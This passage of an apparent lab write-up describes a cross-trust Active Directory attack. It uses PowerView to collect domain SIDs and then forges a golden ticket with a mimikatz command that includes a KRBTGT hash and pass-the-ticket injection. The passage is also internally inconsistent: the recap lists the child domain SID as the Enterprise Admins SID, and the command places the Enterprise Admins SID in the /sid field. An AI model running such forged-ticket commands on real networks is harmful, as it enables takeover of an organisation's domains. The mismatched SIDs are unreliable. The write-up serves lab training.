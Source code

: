 The result is:

```text
S-1-5-21-2241985869-2159962460-1278545866
```


### Enterprise Admin Group SID

Again, by using **PowerView**:

```powershell
Get-DomainGroup -Domain trusted.vl -Identity "Enterprise Admins" | select distinguishedname,objectsid
```

![alt text](/assets/Trusted/Trusted-EnterpriseAdminSID.png)

The resulting SID is:

```text
S-1-5-21-3576695518-347000760-3731839591-519
```

### Golden ticket

Recap of the information that we need to have before forging a **golden ticket** exploiting the parent-child domain trust:

* The KRBTGT hash for the child domain: **c7a03c565c68c6fac5f8913fab576ebd**
- The SID for the child domain: **S-1-5-21-2241985869-2159962460-1278545866**
- The name of a target user in the child domain: **Administrator**
- The FQDN of the child domain: **lab.trusted.vl**
- The SID of the Enterprise Admins group of the root domain: **S-1-5-21-2241985869-2159962460-1278545866**

Since we have everything we need to forge the golden ticket, mimikatz can be used:

```
.\mimikatz.exe "privilege::debug" "kerberos::golden /user:Administrator /domain:lab.trusted.vl /sid:S-1-5-21-3576695518-347000760-3731839591-519 /krbtgt:c7a03c565c68c6fac5f8913fab576ebd /sids:S-1-5-21-3576695518-347000760-3731839591-519 /ptt" "exit"
```

![alt text](/assets/Trusted/Trusted-GoldenTicket.png)
